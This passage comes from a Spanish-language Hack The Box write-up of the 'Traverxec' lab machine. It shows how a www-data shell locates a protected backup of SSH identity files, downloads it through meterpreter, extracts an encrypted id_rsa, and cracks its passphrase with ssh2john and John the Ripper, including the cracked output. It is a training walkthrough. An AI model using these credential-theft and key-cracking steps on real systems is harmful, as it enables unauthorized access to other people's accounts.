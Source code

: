 ```
     authenticate.

     You can restrict the access within the home directories to a single sub
     directory by defining it via the homedirs_public option.
```

Por lo que si buscamos `http://10.10.10.165/~david` igual encontramos algo:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fy7GxVLnAIgxRho2AVzY3%2Fimage.png?alt=media&#x26;token=48882186-e928-4198-9a0b-d7bfff90f0e3" alt=""><figcaption></figcaption></figure>

No parece que podamos hacer nada por aquí. Vamos a ver que hay en el directorio del usuario:

```
www-data@traverxec:/home/david$ ls
ls: cannot open directory '.': Permission denied
```

No tenemos suficientes permisos para leer este directorio, pero por la configuración de antes debería existir `/home/david/public_www`:

```
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
```

Y dentro de `protected-file-area`:

```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

Para poder descargarnos esto, lo haremos desde la shell meterpreter con el siguiente comando:

```
download backup-ssh-identity-files.tgz
```

Lo descomprimimos:

```
❯ tar -xvzf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

El fichero **id\_rsa** está cifrado, por lo que lo pasaremos a un formato para que jhon the ripper pueda leerlo:

```
ssh2john id_rsa > ssh_passwd
```

Con el siguiente comando lo crackeamos:

```
❯ john --wordlist=/usr/share/wordlists/rockyou.txt ssh_passwd
Created directory: /home/zelpro/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2025-06-10 15:13) 50.00g/s 12800p/s 12800c/s 12800C/s carolina..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
